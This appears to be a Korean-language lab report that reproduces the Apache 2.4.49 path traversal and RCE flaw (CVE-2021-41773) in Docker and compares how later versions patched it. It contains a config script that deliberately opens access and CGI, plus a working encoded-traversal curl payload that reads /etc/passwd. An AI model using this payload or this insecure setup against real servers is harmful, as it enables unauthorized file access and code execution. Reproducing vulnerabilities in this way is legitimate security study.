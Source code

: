 # CVE-2021-41773 Apache Path Traversal & RCE PoC (Docker 기반)

## 개요

이 보고서는 Apache HTTP Server 2.4.49 버전에서 발생한 경로 탐색(Path Traversal) 및 원격 코드 실행(RCE) 취약점(CVE-2021-41773)에 대한 PoC를 Docker 환경으로 재현하고, 분석 결과를 정리한 문서입니다. 해당 취약점은 URL 인코딩을 우회하여 시스템 파일에 접근할 수 있습니다.

---

## 취약점 설명

- Apache 2.4.49에서는 요청 경로 내의 `../` 경로 탐색 문자열에 대한 필터링이 불완전하여, URL 인코딩(`%2e%2e/`) 등을 이용한 우회가 가능했습니다.
- 이로 인해 공격자는 웹 루트 밖의 시스템 파일(`/etc/passwd` 등)에 접근하거나, CGI 기능이 활성화된 경우 임의의 명령 실행이 가능합니다.

---

## 취약 환경 구성 파일

### 📄 Dockerfile

```dockerfile
FROM ubuntu:20.04

RUN apt-get update --allow-releaseinfo-change && \
    DEBIAN_FRONTEND=noninteractive apt-get install -y \
    wget curl make gcc g++ perl libpcre3 libpcre3-dev \
    libapr1 libapr1-dev libexpat1-dev && \
    apt-get clean

RUN wget https://archive.apache.org/dist/apr/apr-1.7.0.tar.gz && \
    tar xvfz apr-1.7.0.tar.gz && cd apr-1.7.0 && \
    ./configure --prefix=/usr/local/apr && make && make install

RUN wget https://archive.apache.org/dist/apr/apr-util-1.6.1.tar.gz && \
    tar xvfz apr-util-1.6.1.tar.gz && cd apr-util-1.6.1 && \
    ./configure --with-apr=/usr/local/apr --prefix=/usr/local/apr-util && \
    make && make install

RUN wget https://sourceforge.net/projects/pcre/files/pcre/8.45/pcre-8.45.tar.gz && \
    tar xvfz pcre-8.45.tar.gz && cd pcre-8.45 && \
    ./configure --prefix=/usr/local/pcre && make && make install

RUN wget https://archive.apache.org/dist/httpd/httpd-2.4.49.tar.gz && \
    tar -xf httpd-2.4.49.tar.gz && cd httpd-2.4.49 && \
    ./configure --prefix=/usr/local/apache2.4.49 \
    --enable-module=so --enable-rewrite --enable-so \
    --with-apr=/usr/local/apr/ \
    --with-apr-util=/usr/local/apr-util \
    --with-pcre=/usr/local/pcre \
    --enable-mods-shared=all && \
    make && make install

COPY entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh

EXPOSE 8080
CMD ["/entrypoint.sh"]
```

### 📄 entrypoint.sh

```bash
#!/bin/bash

sed -i 's/Listen 80/Listen 8080/' /usr/local/apache2.4.49/conf/httpd.conf
sed -i 's/Require all denied/Require all granted/' /usr/local/apache2.4.49/conf/httpd.conf
sed -i '/mod_cgi.so/s/^#//g' /usr/local/apache2.4.49/conf/httpd.conf

cat <<EOF >> /usr/local/apache2.4.49/conf/httpd.conf

<Directory "/usr/local/apache2.4.49/cgi-bin">
    Options +ExecCGI
    AddHandler cgi-script .sh
    Require all granted
</Directory>
EOF

/usr/local/apache2.4.49/bin/httpd -k start -DFOREGROUND
```

### 📄 docker-compose.yml

```yaml
version: '3'
services:
  apache-vuln:
    build: .
    ports:
      - "8080:8080"
```

---

## PoC 수행

### 1️⃣ 도커 빌드 및 실행

```bash
docker compose up -d
```

### 2️⃣ Apache 버전 확인

```bash
curl -I http://localhost:8080
```
![alt text](image-1.png)
### 3️⃣ Path Traversal 테스트

```bash
curl http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```
![alt text](image-2.png)
---

## 패치 분석 및 버전 비교

| 버전 | 우회 가능 여부 | 설명 |
|------|----------------|------|
| 2.4.49 | ✅ 가능 | `%2e%2e/` 인코딩 필터링 미흡 |
| 2.4.50 | ✅ 가능 | 이중 인코딩(`%%32%65`)으로 우회 가능 |
| 2.4.51 | ❌ 차단 | 이중 인코딩, 슬래시 필터링까지 완전 차단 |

> Apache는 `ap_normalize_path`, `ap_unescape_url` 함수에 필터링을 추가하여 우회 가능성을 원천 차단

---
